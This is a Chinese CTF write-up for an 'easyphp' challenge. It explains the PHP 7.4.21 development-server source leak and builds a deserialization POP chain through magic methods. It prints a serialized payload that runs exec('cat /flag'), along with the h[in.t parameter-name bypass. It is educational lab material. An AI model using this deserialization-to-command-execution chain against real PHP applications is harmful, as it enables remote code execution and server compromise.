# easyphp题解(没时间做了)
*注：比赛时没有时间做了，后续拿来再复习一下php反序列化*
## 考点
- php版本源码泄露
- php反序列化

## 分析
打开题目，进去后直接就是404，那么就扫目录看看，扫到有`flag.php`，访问之后什么也没有，但是php版本是7.4.21(≤7.4.21存在源码泄露)，存在源码泄露风险(参考下面的【题外话】)：


源码如下：
```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class a{
    public $OAO;
    public $QAQ;
	public $OVO;
    public function __toString(){
		if(!preg_match('/hello/', OVO)){
			if ($this->OVO === "hello") {
				return $this->OAO->QAQ;
			}	
		}
    }
	public function __invoke(){
		return $this->OVO;
	}
}

class b{
    public $pap;
	public $vqv;
    public function __get($key){
        $functioin = $this->pap;
        return $functioin();
    }
	public function __toString(){
		return $this->vqv;
	}
}
class c{
    public $OOO;
    public function __invoke(){
		@$_ = $this->OOO;
		$___ = $_GET;
		var_dump($___);
		if (isset($___['h_in.t'])) {
			unset($___['h_in.t']);
		}
		var_dump($___);
		echo @call_user_func($_, ...$___); 
    }
}
class d{
    public $UUU;
    public $uuu;
    public function __wakeup(){
		echo $this->UUU;
    }
	public function __destruct(){
		$this->UUU;
}
}
if(isset($_GET['h_in.t'])){
	unserialize($_GET['h_in.t']);
}
?> 
```

溜一眼，不出意外的话，就是反序列化了，接下来就开始分析(纯复习了)：
- 先找链尾，直接锁定到`@call_user_func`，即`c::__invoke()`，`__invoke`的触发条件为对象被当成函数调用：

- 因此找到`b::__get()`，其触发条件为访问不存在的属性：

- 进一步找到`a::__toString()`，其触发条件为对象被当作字符串使用：

- 最后找到`d::__wakeup()`，其触发条件为反序列化一个对象时触发：


即pop链为`d::__wakeup()-->a::__toString()->b::__get()->c::__invoke()`。


## 题解
接下来就是设置一些值绕过一些条件判断，并构造最终的payload，emmm，好像没有什么需要绕过的，payload如下：
```php
<?php

class a{
    public $OAO;
    public $QAQ;
	public $OVO;
    public function __toString(){
		if(!preg_match('/hello/', OVO)){
			if ($this->OVO === "hello") {
				return $this->OAO->QAQ;
			}	
		}
    }
	public function __invoke(){
		return $this->OVO;
	}
}

class b{
    public $pap;
	public $vqv;
    public function __get($key){
        $functioin = $this->pap;
        return $functioin();
    }
	public function __toString(){
		return $this->vqv;
	}
}
class c{
    public $OOO;
    
    // pop链尾
    public function __invoke(){
		@$_ = $this->OOO;
		$___ = $_GET;
		var_dump($___);
		if (isset($___['h_in.t'])) {
			unset($___['h_in.t']);
		}
		var_dump($___);
		echo @call_user_func($_, ...$___); 
    }
}
class d{
    public $UUU;
    public $uuu;
    public function __wakeup(){
		echo $this->UUU;
    }
	public function __destruct(){
		$this->UUU;
    }
}

$a = new a;
$b = new b;
$c = new c;
$d = new d;
$d->UUU=$a;
$a->OAO=$b;
$a->OVO="hello";
$b->pap=$c;
$c->OOO="phpinfo";
echo serialize($d);
?>
# O:1:"d":2:{s:3:"UUU";O:1:"a":3:{s:3:"OAO";O:1:"b":2:{s:3:"pap";O:1:"c":1:{s:3:"OOO";s:7:"phpinfo";}s:3:"vqv";N;}s:3:"QAQ";N;s:3:"OVO";s:5:"hello";}s:3:"uuu";N;}
```
自己搭的环境复现下，先执行phpinfo()来看下被ban的方法有哪些：


然后发现exec可以利用，然后利用如下payload获取flag：
```
O:1:"d":2:{s:3:"UUU";O:1:"a":3:{s:3:"OAO";O:1:"b":2:{s:3:"pap";O:1:"c":1:{s:3:"OOO";s:4:"exec";}s:3:"vqv";N;}s:3:"QAQ";N;s:3:"OVO";s:5:"hello";}s:3:"uuu";N;}&1=phpinfo();&1=cat /flag
```


<mark>为什么get参数时h_in.t，传入的确是h[in.t呢？：</mark>
> $\_GET会将h\_in.t转换为h_in_t，当PHP版本小于8时，如果参数中出现中括号[，中括号会被转换成下划线_，同时**会出现转换错误导致接下来如果该参数名中还有非法字符并不会将其继续转换成下划线_，也就是说如果中括号[出现在前面，那么中括号[被转换成下划线_，但是因为出错导致接下来的非法字符并不会被转换成下划线_**。所以将参数名改为 h[in.t

## 题外话-php7.4.21源码泄露复现
docker拉取一个`php-7.4.21`的镜像：


然后进入容器内部shell：


然后写一个php文件并开启development server：


访问，直接返回404：


然后利用Burp抓包(关闭repeater的update content-length功能)，内容如下，可以获得泄露源码：
